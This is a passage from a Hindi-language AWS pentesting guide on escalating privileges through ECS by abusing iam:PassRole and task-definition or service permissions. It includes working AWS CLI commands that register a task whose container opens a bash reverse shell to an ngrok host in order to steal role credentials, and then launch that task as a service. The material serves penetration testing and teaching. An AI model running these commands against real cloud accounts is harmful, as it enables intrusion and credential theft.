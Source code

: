 ```bash
```
**संभावित प्रभाव:** किसी भी ECS भूमिका को सीधा उन्नत करना।

### `iam:PassRole`, `ecs:RegisterTaskDefinition`, (`ecs:UpdateService|ecs:CreateService)`

पिछले उदाहरण की तरह एक हमलावर **`iam:PassRole`, `ecs:RegisterTaskDefinition`, `ecs:UpdateService`** या **`ecs:CreateService`** अनुमतियों का दुरुपयोग करने वाला ECS में एक नया कार्य परिभाषा **उत्पन्न कर सकता है** जिसमें एक **हानिकारक कंटेनर** होता है जो मेटाडेटा क्रेडेंशियल्स को चुरा लेता है और **कम से कम 1 कार्य चल रहा होने के साथ एक नई सेवा बनाकर इसे चला सकता है।**
```bash
# Generate task definition with rev shell
aws ecs register-task-definition --family iam_exfiltration \
--task-role-arn  "$ECS_ROLE_ARN" \
--network-mode "awsvpc" \
--cpu 256 --memory 512\
--requires-compatibilities "[\"FARGATE\"]" \
--container-definitions "[{\"name\":\"exfil_creds\",\"image\":\"python:latest\",\"entryPoint\":[\"sh\", \"-c\"],\"command\":[\"/bin/bash -c \\\"bash -i >& /dev/tcp/8.tcp.ngrok.io/12378 0>&1\\\"\"]}]"

# Run the task creating a service
aws ecs create-service --service-name exfiltration \
--task-definition iam_exfiltration \
--desired-count 1 \
--cluster "$CLUSTER_ARN" \
--launch-type FARGATE \
--network-configuration "{\"awsvpcConfiguration\":{\"assignPublicIp\": \"ENABLED\", \"subnets\":[\"$SUBNET\"]}}"

# Run the task updating a service
aws ecs update-service --cluster <CLUSTER NAME> \
--service <SERVICE NAME> \
--task-definition <NEW TASK DEFINITION NAME>
```
**संभावित प्रभाव:** किसी भी ECS भूमिका में सीधा प्रिविलेज उन्नति।

### `iam:PassRole`, (`ecs:UpdateService|ecs:CreateService)`
